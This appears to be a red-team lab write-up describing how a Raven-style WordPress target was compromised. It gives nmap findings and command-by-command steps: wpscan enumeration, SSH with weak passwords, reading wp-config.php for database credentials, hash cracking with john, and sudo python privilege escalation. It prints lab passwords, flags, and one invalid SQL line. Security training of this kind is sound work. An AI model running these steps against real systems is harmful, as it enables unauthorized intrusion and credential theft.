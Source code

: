 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
  # TODO: Insert scan output
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp | SSH | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  - Port 80/tcp | http | Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp | rpcbind | 2-4 (RPC #1000000)
  - Port 139/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  - Port 445/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - Open/Unfiltered Ports 22 & 80
  [screenshot]
  - WordPress Enumeration
  [screenshot]
  - Weak User Credentials
  [screenshot]
  - Misconfigured User Privileges on Target System
  [screenshot]
  - Brute Force Attack
  [screenshot]
  - Privilege Escalation (Python Library Hijacking)
  [screenshot]

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862428d}
    - **Exploit Used**
      - Step 1: WordPress User Enumeration
        - ` wpscan --url http://192.168.1.110/wordpress --enumerate vp,u `
      [screenshot] 
      - Step 2: SSH Login Using Weak Login Credentials
        - ` ssh michael@192.168.1.110, password: michael `
        [screenshot]
      - Step 3: File Directory Search
        - ` find . -iname "*flag1*" `
        [screenshot]
        
    
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Step 1: File Enumeration
        - ` ls -la /var/www `
      - Step 2: Misconfigured File Privileges
        - ` cat /var/www/flag2.txt `
      [screenshot]

  - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Step 1: Misconfigured File Privileges
        - ` nano /var/www/html/wordpress/wp-config.php `
        [screenshot]
      - Step 2: MySQL Login
        - ` mysql --host=localhost --user=root --password=R@v3nSecurity `
        [screenshot]
      - Step 3: Database Traversal & Table Enumeration
        - ` SHOW * FROM wp_posts; `
        [screenshot]
      

  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**

      - Step 1: MySQL WordPress Login Credential Enumeration
        ` SELECT user_login,user_pass FROM wp_users; ` 
        [screenshot]
      - Step 2: Brute Force
        - ` john --wordlist=rockyou.txt wp_hashes.txt `
        [screenshot]
      - Step 3: SSH Login
        - ` ssh steven@192.168.1.110, password pink84 `
        [screenshot]
      - Step 4: Sudo Privileges Check
        - ` sudo -l `
        [screenshot]
      - Step 5: Privilege Escalation with Python Shell Spawn
        - ` sudo python -c 'import pty;pty.spawn("/bin/bash")' `
        [screenshot]
